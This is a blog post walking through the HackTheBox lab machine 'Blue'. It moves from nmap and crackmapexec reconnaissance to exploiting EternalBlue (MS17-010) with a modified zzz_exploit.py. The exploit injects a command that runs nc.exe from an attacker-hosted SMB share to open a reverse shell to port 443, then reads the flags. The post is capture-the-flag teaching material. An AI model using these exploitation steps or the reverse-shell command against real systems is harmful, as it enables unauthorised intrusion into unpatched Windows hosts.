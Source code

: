 ```yaml
---
layout: post
comments: true
title: "Blue HTB Write Up"
tags: ['hackthebox', 'writeup', 'eternal-blue']
---
```


## Introduction
Today we are going to PWN a HackTheBox machine called Blue.
Blue is an easy machine, we are going to use tools such as nmap to scan the ports, crackmapexec to recognise all the network devices via smb.
We are going to exploit an EternalBlue vulnerability, and finally we are going to learn how to inject code in the victim's machine through this vulnerability.

## Dependencies
* In order to everything work you must have Python2 and pip2 installed.
[HowToInstallPip2Parrot](../../../../2021/12/30/installing-pip2-on-parrot.html)

* crackmapexec
```bash
sudo apt install crackmapexec
```

## Ports recognizement
The ip address of this machine is the 10.10.10.40.
First we need to indetify all the ports open on the machine, we are going to run:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.40 -oG ports
```
* -sS -> TCP SYN (Stealth) Scan
* --min-rate -> specify the number of packets you are sending per second
* -p- -> scan all range of ports
* --open -> only scan open ports
* -vvv -> while the program in running you can get additional information about hte proccess
* -n -> don't use DNS resolution
* -Pn -> use it if the host is blocking ping proves
* -oG -> return the result in a grepeable file in order to proccess it later

We are going to use [getPorts](https://github.com/isuckatlinux/getPorts) to extract all the relevant data from the nmap output
```bash
getPorts ports
```

Once we extracted all the ports we are going to find out the service they are running:
```bash
nmap -sC -sV -p135,139,445,49153 10.10.10.40 -oN services
```
* -oN -> return the output into a nmap file
* -sV -> enum services
* -p*p1, p2, pn* -> specify this ports


We can see port 445 open, this might be a smb vulnerability, let's find out.
With [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) we can see all the devices using a service over the entire network (beside other uses)
```bash
crackmapexec smb 10.10.10.0/24
```
*Because we are targeting a particular computer we could also specify this computer and not the entire network*



We see the host is runnning windows7 🤓 <br>
MS017, most know as Eternal Blue, was a vulnerability in the smb protocol that affectes WindowsXP and windows7 computers.
If this haven't been patched on the machine this means that we already got a very serious vulneravilty in the system that will allow us to execute code as admin.

We are going to see two ways of see if this machine is vulnerable:
1. Nmap scripts.<br>
Nmap have a lot of scripts that allows checking multiple vulneravilities. These scripts are sorted by categories.
In order to see all the categories in nmap we could run:
```bash
locate .nse | xargs grep "categories" | grep -oP '"*"' | sort -u
```
We can see a bunch of categories, we will cover all the categories in another post soon 🤖.
For the time we are going to be using "vuln and safe"
So lets run:
```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnerable
```
![image1](https://abusinglinux.com/assets/images/blue_htb/nmap_scripts_output.png)
BINGO! We can see in the picture the service is vulnerable

2. Eternal blue checker <br>
We are going to use a [checker](https://github.com/worawit/MS17-010) 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
```
The checker is named *checker.py*<br>
We run:
```bash
python2 checker.py 10.10.10.40
```
We can see all the pipes are denied.
We have to try the user 'guest'. We look into the code and we see two fields empty, the username and the password.
We introduce 'guest' in the username string.
<br>
We run again:
```bash
python2 checker.py 10.10.10.40
```

![image2](https://abusinglinux.com/assets/images/blue_htb/username_guest.PNG)<br>
As we can see we have a bunch of pipes that reported OK. <br>


## Exploiting
In the exploiting phase we could use Metasploit, but there is an issue with that. Eternal blue is a kernel-level vulnerability, that means that if anything goes wrong (or everything doesn't go perfect) we most likely to have blue screen or very inestable shells.
That's why in these cases where you want to have all control is actually better to just inject the code yourself.

In order to proceed to inject code we are going to use the repo we used before to check the vulnerability [MS17-010](https://github.com/worawit/MS17-010).

Now we are going to use the zzz_exploit.py
This exploit run a trivial command on the victim's machine. We are going to find that command and replace it with our personal one.
The method we are going to edit is *smb_pwn*.<br>
We are going to comment all lines of the code except the first one. And we are going to decomment the *service_exec* line <br>
The code should look like this:<br>
![image3](https://abusinglinux.com/assets/images/blue_htb/zzz_modified.PNG)

We are going to exploit this vulnerability by sharing a folder with smb witch contains [netcat](https://es.wikipedia.org/wiki/Netcat) and we are going to run netcat from the victims machine to produce a reverse shell.
The command we have to inject is the next
```bash
cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443
```
So you the line have to look like that:
```python
service_exec(conn, r'cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443')
```
In addition, we have to set the username to 'guest' just how we did on the checker

So, the steps are:
1. Share a folder with the netcat
    * We have to locate netcat in our machine and copy it to our folder wich we are going to be sharing soon
    ```bash
    locate nc.exe
    cp *path_to_netcat* $(pwd)
    ```
    If you are not able to locate nc.exe here's a link to download [netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)<br>
    *At this point we have to have netcat in our folder*

    * Share the folder
    ```bash
    imppacket-smbserver sharedFolder $(pwd) -smb2support 
    ```
    *The flag smb2support is no necessary beacuse we are dealing with version one of the smb protocol, but It's a good practice to give support v2 just in case*


2. Listening at port 443 to get the reverse shell
```bash
    nc -nlvp 443
```
3. Finallly exploiting!
We could use any pipe the checker reported to be OK.<br>
We are going to use samr

```bash
zzz_exploit.py 10.10.10.40 samr
```

>BOOM 💥

If everything it's working fine we should see a shell.
We could run
```cmd
whoami
```
We should see nt authority system, that means that we have admin privileges.

Now let's see the flags:
```cmd
cd C:\Users\haris\Desktop
type user.txt

cd C:\Users\Administrator\Desktop
type root.txt
```

Thank's all for reading this! I hope you enjoyed this writing, any feedback is welcome.

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://isuckatlinux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}